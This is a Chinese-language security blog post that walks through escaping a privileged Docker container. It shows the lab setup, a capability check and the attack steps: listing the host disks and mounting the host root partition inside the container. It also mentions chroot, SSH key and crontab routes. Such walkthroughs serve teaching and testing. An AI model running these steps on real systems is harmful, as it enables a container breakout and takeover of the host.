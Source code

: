 ```yaml
---
title: Docker特权模式逃逸
date: 2022-08-12 20:14:52
slug: docker-privileged-escape
tags:
  - Docker
  - Security
categories:
  - Security
  - Container

---
```


## 一、漏洞说明

特权模式逃逸是一种最简单有效的逃逸方法，使用特权模式启动的容器时，`docker`管理员可通过`mount`命令将外部宿主机磁盘设备挂载进容器内部，获取对整个宿主机的文件读写权限，可直接通过`chroot`切换根目录、写`ssh`公钥和`crontab`计划任何等逃逸到宿主机。

## 二、环境搭建

```
// 使用特权模式运行容器
docker run -it --privileged ubuntu:18.04  
```

## 三、漏洞验证

```
// 如果是以特权模式启动，**CapEff** 对应的掩码值应该为: 0000003fffffffff
root@43552e476ea7:/# cat /proc/self/status | grep CapEff
CapEff: 0000003fffffffff
```

## 四、漏洞利用

### 4.1、查看宿主机目录

```bash
fdisk -l

Device     Boot    Start      End  Sectors Size Id Type
/dev/sda1  *        2048 48234495 48232448  23G 83 Linux
/dev/sda2       48236542 52426751  4190210   2G  5 Extended
/dev/sda5       48236544 52426751  4190208   2G 82 Linux swap / Solaris
```

### 4.2、在容器内挂载宿主机目录

```bash
root@e980481bfd0f:/# mkdir test
root@e980481bfd0f:/# mount /dev/sda1 test/
root@e980481bfd0f:/# cd test
root@e980481bfd0f:/test# ls 
bin    dev   initrd.img  lost+found  opt   run   srv  usr
boot   etc   lib         media       proc  sbin  sys  var
cdrom  home  lib64       mnt         root  snap  tmp  vmlinuz

```

